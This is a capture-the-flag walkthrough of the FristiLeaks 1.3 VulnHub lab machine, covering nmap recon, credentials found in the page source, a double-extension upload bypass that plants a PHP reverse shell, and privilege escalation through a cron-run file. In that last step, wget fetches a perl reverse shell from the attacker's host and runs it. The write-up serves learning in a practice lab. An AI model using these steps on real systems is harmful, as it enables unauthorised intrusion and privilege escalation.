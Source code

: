 # FRISTILEAKS: 1.3

## 1.Get VM IP

```bash
root@kali: nmap -sn 192.168.127.0/24

Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-05 01:18 EDT
Nmap scan report for 192.168.127.1
Host is up (0.00018s latency).
MAC Address: 00:50:56:C0:00:01 (VMware)
Nmap scan report for 192.168.127.135
Host is up (0.00056s latency).
MAC Address: 08:00:27:A5:A6:76 (Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.127.254
Host is up (0.00049s latency).
MAC Address: 00:50:56:F4:78:0D (VMware)
Nmap scan report for 192.168.127.128
Host is up.
Nmap done: 256 IP addresses (4 hosts up) scanned in 15.07 seconds
```

The IP address is `192.168.127.135`, let scan it.

## 2.Enumeration

```bash
root@kali: nmap -sV -sC 192.168.127.135 -oN nmapresult

Nmap scan report for 192.168.127.135
Host is up (0.00025s latency).
Not shown: 989 filtered tcp ports (no-response), 10 filtered tcp ports (host-prohibited)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.2.15 ((CentOS) DAV/2 PHP/5.3.3)
|_http-server-header: Apache/2.2.15 (CentOS) DAV/2 PHP/5.3.3
| http-robots.txt: 3 disallowed entries 
|_/cola /sisi /beer
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
MAC Address: 08:00:27:A5:A6:76 (Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.12 seconds
```
The only open port here is `80`, from the nmap report we see `robots.txt` has 3 routes

navigating to these directories shows the same content :

![page](https://github.com/Git-K3rnel/VulnHub/assets/127470407/2d1e90c6-1d88-4740-8469-f6c61cdbe270)

i started fuzzing the application with different methods but found nothing except `/images/` and `/icons/` directory that had nothing intersting.

back to the main page saying "KEEP CALM AND DRINK FRISTI", the word `fristi` was weird for me so tried navigating to `fristi` :

![fristipage](https://github.com/Git-K3rnel/VulnHub/assets/127470407/86780385-6f4b-4857-9104-30b6d7043aea)

yes, we found a login page, i tried some sql injection payloads but did not work.

viewing the page source :

![pagesource](https://github.com/Git-K3rnel/VulnHub/assets/127470407/8cc548d1-f8b8-434e-aa7d-2e33b2f66633)

the comment here is by `eezeepz`, maybe a username ? write it down.

scrolling down a little shows base64 data image :


![datablob](https://github.com/Git-K3rnel/VulnHub/assets/127470407/606d6e18-a4a9-46d1-984b-e566391651c3)

convert it back to image using an online service or browser itself :

![kekek](https://github.com/Git-K3rnel/VulnHub/assets/127470407/bfffc291-b028-4751-9678-e301cc6def0d)

using `eezeepz` as user and the string in the picture `keKkeKKeKKeKkEkkEk` you can login to website :

![login](https://github.com/Git-K3rnel/VulnHub/assets/127470407/5b34ac61-581a-42ee-b6bf-0c18c48db81a)

## 3.Gaining Shell

here we see an upload functionality that only allows uploading `png,jpg,gif` files, after trying afew methods to bypass it

i found that it checks only the last extention of a file, for example `test.php.png` is acceptable. so i uploaded a php reverse shell

navigated to `/uploads/test.php.png` directory, with a listener on my system i got the shell :

![shell1](https://github.com/Git-K3rnel/VulnHub/assets/127470407/ed033369-cd57-468d-93b6-d6dfabdba2e7)

in `/var/www` there is a file `notes.txt` :
```bash
bash-4.1$ cat notes.txt
hey eezeepz your homedir is a mess, go clean it up, just dont delete
the important stuff.

-jerry
```

as jerry says here the home dir of user eezeepz is a mess.

navigate to `/home` directory and there are 3 users here and we can only access the eezeepz directory

in this directory there is a `notes.txt` again :

```bash
bash-4.1$ cat notes.txt
Yo EZ,

I made it possible for you to do some automated checks, 
but I did only allow you access to /usr/bin/* system binaries. I did
however copy a few extra often needed commands to my 
homedir: chmod, df, cat, echo, ps, grep, egrep so you can use those
from /home/admin/

Don't forget to specify the full path for each binary!

Just put a file called "runthis" in /tmp/, each line one command. The 
output goes to the file "cronresult" in /tmp/. It should 
run every minute with my account privileges.

- Jerry
```
as it seems in this note admin provides us afew capabilities :
- we can run all binaries in `/usr/bin/`
- we can run afew binaries in `/home/admin/`
- we should create a file called `runthis` in `/tmp/` and put our commands into this file
- the "runthis" file will be executed with admin privileges every one minute
- the result will be saved in `cronresult` file

so what is better than another reverse shell ?

## Privilege Escalation to admin user

i prepared another reverse shell, this time a perl reverse shell in my kali machine

because `perl` binary exist in `/usr/bin` directory and we can execute it :

```bash
root@kali: ls
revshell.pl
root@kali: python -m http.server 80
bash-4.1$ cd /tmp
bash-4.1$ wget http://192.168.127.128/revshell.pl
bash-4.1$ echo '/usr/bin/perl /tmp/revshell.pl' > runthis
```

and yes we got the shell with admin privileges :


![shell2](https://github.com/Git-K3rnel/VulnHub/assets/127470407/1c6d7bc4-3db4-4e55-82d6-3cc29d66cabf)

we navigate to `/home/admin` directory and there are afew files here :

```bash
admin@localhost ~]$ ls -l
total 632
-rwxr-xr-x 1 admin     admin      45224 Nov 18  2015 cat
-rwxr-xr-x 1 admin     admin      48712 Nov 18  2015 chmod
-rw-r--r-- 1 admin     admin        737 Nov 18  2015 cronjob.py
-rw-r--r-- 1 admin     admin         21 Nov 18  2015 cryptedpass.txt
-rw-r--r-- 1 admin     admin        258 Nov 18  2015 cryptpass.py
-rwxr-xr-x 1 admin     admin      90544 Nov 18  2015 df
-rwxr-xr-x 1 admin     admin      24136 Nov 18  2015 echo
-rwxr-xr-x 1 admin     admin     163600 Nov 18  2015 egrep
-rwxr-xr-x 1 admin     admin     163600 Nov 18  2015 grep
-rwxr-xr-x 1 admin     admin      85304 Nov 18  2015 ps
-rw-r--r-- 1 fristigod fristigod     25 Nov 19  2015 whoisyourgodnow.txt
```

interesting files are :
- whoisyourgodnow.txt
- cryptedpass.txt
- cryptpass.py

we look at all these files :

```bash
[admin@localhost ~]$ cat whoisyourgodnow.txt
=RFn0AKnlMHMPIzpyuTI0ITG
[admin@localhost ~]$ cat cryptedpass.txt
mVGZ3O3omkJLmy2pcuTq
[admin@localhost ~]$ cat cryptpass.py
#Enhanced with thanks to Dinesh Singh Sikawar @LinkedIn
import base64,codecs,sys

def encodeString(str):
    base64string= base64.b64encode(str)
    return codecs.encode(base64string[::-1], 'rot13')

cryptoResult=encodeString(sys.argv[1])
print cryptoResult
```







